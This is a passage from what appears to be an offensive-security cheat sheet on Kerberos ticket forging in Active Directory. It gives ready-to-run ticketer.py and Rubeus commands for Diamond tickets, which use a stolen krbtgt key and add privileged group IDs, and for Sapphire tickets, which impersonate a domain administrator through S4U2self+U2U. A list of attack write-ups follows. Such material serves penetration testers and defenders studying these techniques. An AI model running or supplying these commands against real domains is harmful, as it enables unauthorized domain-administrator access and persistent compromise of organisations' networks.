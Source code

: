 > Request a legit low-priv TGT and recalculate only the PAC field providing the krbtgt encryption key

Requirements:

* krbtgt NT Hash
* krbtgt AES key

```ps1
ticketer.py -request -domain 'lab.local' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'

Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
```

## Pass-the-Ticket Sapphire Tickets

> Requesting the target user's PAC with `S4U2self+U2U` exchange during TGS-REQ(P) (PKINIT).

The goal is to mimic the PAC field as close as possible to a legitimate one.

Requirements:

* [Impacket PR#1411](https://github.com/SecureAuthCorp/impacket/pull/1411)
* krbtgt AES key

```ps1
# baduser argument will be ignored
ticketer.py -request -impersonate 'domain_adm' -domain 'lab.local' -user 'domain_user' -password 'password' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' 'baduser'
```

## References

* [Golden ticket - Pentestlab](https://pentestlab.blog/2018/04/09/golden-ticket/)
* [How Attackers Use Kerberos Silver Tickets to Exploit Systems - Sean Metcalf](https://adsecurity.org/?p=2011)
* [How To Pass the Ticket Through SSH Tunnels - bluescreenofjeff](https://bluescreenofjeff.com/2017-05-23-how-to-pass-the-ticket-through-ssh-tunnels/)
* [Diamond tickets - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond)
* [A Diamond (Ticket) in the Ruff - By CHARLIE CLARK July 05, 2022](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)
* [Sapphire tickets - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/sapphire)
* [WONKACHALL AKERVA NDH2018 – WRITE UP PART 1](https://akerva.com/blog/wonkachall-akerva-ndh-2018-write-up-part-1/)
* [WONKACHALL AKERVA NDH2018 – WRITE UP PART 2](https://akerva.com/blog/wonkachall-akerva-ndh2018-write-up-part-2/)
* [WONKACHALL AKERVA NDH2018 – WRITE UP PART 3](https://akerva.com/blog/wonkachall-akerva-ndh2018-write-up-part-3/)
* [WONKACHALL AKERVA NDH2018 – WRITE UP PART 4](https://akerva.com/blog/wonkachall-akerva-ndh2018-write-up-part-4/)
* [WONKACHALL AKERVA NDH2018 – WRITE UP PART 5](https://akerva.com/blog/wonkachall-akerva-ndh2018-write-up-part-5/)
* [How To Attack Kerberos 101 - m0chan - July 31, 2019](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
* [Kerberos (II): How to attack Kerberos? - June 4, 2019 - ELOY PÉREZ](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)
